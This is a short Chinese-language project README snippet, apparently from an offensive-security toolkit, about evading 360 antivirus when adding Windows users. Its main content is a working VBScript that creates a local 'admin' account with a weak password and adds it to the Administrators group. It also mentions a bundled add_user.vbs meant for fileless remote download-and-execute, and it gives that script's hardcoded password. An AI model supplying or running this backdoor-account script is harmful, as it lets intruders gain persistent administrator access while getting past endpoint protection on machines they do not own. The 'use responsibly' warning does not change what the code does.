


正常执行命令添加用户会被360拦截如图：



使用vbs添加用户绕过360，成功添加:



项目`tools`目录也有添加add_user.vbs脚本，可以配合远程下载执行无文件落地执行。

源码如下:

```vbscript

set wsnetwork=CreateObject("WSCRIPT.NETWORK")
os="WinNT://"&wsnetwork.ComputerName
Set ob=GetObject(os)
Set oe=GetObject(os&"/Administrators,group")
Set od=ob.Create("user","admin")
od.SetPassword "123456"
od.SetInfo
Set of=GetObject(os&"/admin",user)
oe.add os&"/admin"
```

注意密码复杂性，我项目里面的脚本密码是`Love@123456`

⚠️请合理使用，资源来自：https://mp.weixin.qq.com/s/yWTA8Q2GPwOMQBHph5srJQ

